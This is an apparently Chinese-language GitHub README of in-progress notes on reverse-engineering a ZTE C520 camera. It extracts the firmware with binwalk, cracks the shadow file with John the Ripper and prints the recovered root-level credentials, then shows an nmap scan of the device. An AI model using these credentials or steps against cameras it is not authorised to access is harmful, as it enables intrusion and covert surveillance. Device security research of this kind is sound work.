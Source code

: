 # ZTE_520_Caramer
进行中的项目......

从朋友手中得到了一个ZTE_C520的小兴看看，可惜的是，这个设备被其他手机绑定了。
他有一个后台系统，但是后台系统的密码需要在手机端才能查询的到。
也就是说必须有绑定的手机跟设备同时存在，才可以用此设备，否则光拿着设备是没用的。这点做的非常的好，提高了安全系数，值得我们借鉴。

## 下载官方ROM
    binwalk -e C520_v216t3_firmware.bin

    root@kali:/mnt/hgfs/share/_C520_v216t3_firmware.bin.extracted# ls -la
    total 9586
    drwxrwxrwx 1 root root    4096 Apr  1 04:47 .
    drwxrwxrwx 1 root root    4096 Apr  1 07:52 ..
    -rwxrwxrwx 1 root root 5754880 Apr  1 04:47 280000.squashfs
    -rwxrwxrwx 1 root root 4048132 Apr  1 04:47 47B0
    drwxrwxrwx 1 root root    4096 Oct 26  2016 squashfs-root

## 破解密码
- 从官方rom中，提取出

    /etc/shadow  
    /etc/passwd
    
- 下载john

- 比较幸运，很短时间，算出了密码
        
        [root@VM_102_86_centos run]# ./unshadow passwd shadow > /opt/pas/txt_passwd
        [root@VM_102_86_centos run]# ./john --wordlist=super.txt /opt/pas/txt_passwd           
        Loaded 2 password hashes with no different salts (md5crypt [MD5 32/64 X2])
        Press 'q' or Ctrl-C to abort, almost any other key for status
        12345!@#$%       (zte!!)
        1g 0:00:00:49 100% 0.02006g/s 10787p/s 10787c/s 12796C/s zzzzzzzzz..zzzzzzzzzz
        Use the "--show" option to display all of the cracked passwords reliably
        Session completed
        
**<font color=red>user:zte!!    passwd:12345!@#$%</font>**



        root@kali:~# nmap 192.168.1.108

        Starting Nmap 7.60 ( https://nmap.org ) at 2018-04-07 11:46 EDT
        Nmap scan report for 192.168.1.108
        Host is up (0.0052s latency).
        Not shown: 996 closed ports
        PORT      STATE SERVICE
        80/tcp    open  http
        554/tcp   open  rtsp
        873/tcp   open  rsync
        52869/tcp open  unknown
        MAC Address: F0:84:C9:6F:83:F9 (zte)

        Nmap done: 1 IP address (1 host up) scanned in 3.06 seconds



## 拆解硬件，用UART进入。。。
